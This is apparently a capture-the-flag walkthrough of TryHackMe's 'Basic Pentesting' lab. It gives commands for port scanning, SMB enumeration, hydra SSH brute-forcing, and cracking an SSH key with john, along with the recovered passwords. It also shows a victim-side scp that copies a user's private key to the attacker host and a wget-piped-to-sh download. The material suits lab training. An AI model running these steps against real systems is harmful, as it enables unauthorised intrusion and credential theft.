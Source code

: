 # Basic Pentesting

**Room Link:** [https://tryhackme.com/room/basicpentestingjt](https://tryhackme.com/room/basicpentestingjt)



## Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (6).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (8).png" alt=""><figcaption></figcaption></figure>



### HTTP port 80

```
dirb http://$VICTIM:80 /usr/share/wordlists/dirb/big.txt
```

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

## SMB port 139

**Kali**

```
nmap $VICTIM --script=smb-enum*
```

<figure><img src="../../.gitbook/assets/image (8) (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (62) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
smbclient -L //$VICTIM/ -U anonymous
```

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

We found a file that has two possible usernames. In the note above it mentioned someone with J in their name has a weak password.

**Kali**

```
smbclient \\\\$VICTIM\\Anonymous -U anonymous
prompt
mget *
exit
cat staff.txt
```

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

### SSH port 22

**Kali**

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh jan@$VICTIM
Password: armando
```



### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```



<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
ls -lah /home/kay/.ssh/
```

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
scp id_rsa root@$KALI:/root/loot
```

It is password protected so we need to try to get the password from john

**Kali**

<pre><code>chmod 400 id_rsa 
<strong>ssh -i id_rsa kay@$VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
/opt/john/ssh2john.py id_rsa > pass_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt pass_hash.txt
```

<figure><img src="../../.gitbook/assets/image (5) (6).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh -i id_rsa kay@$VICTIM
Password: beeswax
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat pass.bak 
```

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>
